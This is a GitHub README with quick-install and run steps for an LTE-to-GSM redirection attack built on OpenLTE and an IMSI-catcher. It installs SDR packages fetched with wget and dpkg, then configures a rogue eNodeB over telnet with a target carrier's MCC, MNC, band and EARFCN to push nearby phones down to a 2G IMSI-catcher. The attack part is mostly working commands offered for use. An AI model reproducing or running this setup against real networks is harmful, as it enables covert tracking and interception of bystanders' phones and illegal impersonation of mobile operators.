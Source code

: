 # openlte_redirection_quickinstall
* Installation
Follow this readme :  
https://github.com/bbaranoff/openLTE2GSM/

```
apt update
```
```
apt-get install git
```
```
git clone https://github.com/bbaranoff/openLTE2GSM/
```
```
cd openLTE2GSM/
```
```
sudo chmod +x install.sh
```
```
sudo ./install.sh
```

The bash script is :  
sudo apt update  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/uhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapysdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/bladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapybladerf_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/soapyuhd_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gnuradio_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/gr-osmosdr_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/polarssl_20211230-1_amd64.deb  
wget https://github.com/bbaranoff/openLTE2GSM/releases/download/v0.1/openlte_20211230-1_amd64.deb  
dpkg -i *.deb  
export LD_LIBRARY_PATH=/usr/local/lib/  
sudo ldconfig  
sudo apt install libboost-date-time1.67.0 libboost-filesystem1.67.0 libboost-regex1.67.0 libboost-serialization1.67.0 libboost-serialization1.67.0  
echo "Done !!!!"


# OTHER INSTALLATION :  

```
sudo apt install libboost-program-options1.67.0 libboost-thread1.67.0 libusb-1.0-0 usbutils python-is-python3 python3-requests  
```
```
sudo apt install libfftw3-3
```
```
/usr/lib/uhd/utils/uhd_images_downloader.py
```

* Installing 2G IMSI-Catcher with ARFCN 514
Then build 2G IMSI-Catcher  
Build IMSI-catcher  

* Testing the attack
Running  
Phone in 2G/3G/4G mode  
This article is in progress and is just a PoC  
The attack step are run the IMSI-catcher into arfcn 514 follow (see Build IMSI-catcher)  
run the 4G redirector as follow  
  
# Shell #1  
```
LTE_fdd_enodeb
```

# Shell #2  
```
telnet localhost 30000  
```
```
write rx_gain 30  
```
```
write tx_gain 80  
```
```
write mcc 215  
```
```
write mnc 15  
```
```
write band 7  
```
```
write dl_earfcn 3350  
```
```
write tracking_area_code 6604   
```

(change with your ue values be careful that the earfcn is in the band)  
  
Then switch the phone in airplane mode and in  localhost:30000 (Shell #2) :  
```
start  
```

wait… and when you have “ok” answer in shell #2 remove airplane mode and … enjoy !

* Video explaining :  
**https://www.youtube.com/watch?v=CL4THUyUSDc&t=34s&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg  
**https://www.youtube.com/shorts/j5cs28u4DAo  
**https://www.youtube.com/watch?v=GmPN6CblvaQ&pp=ygUhbHRlIHJlZGlyZWN0aW9uIGJhc3RpZW4gYmFyYW5vZmYg

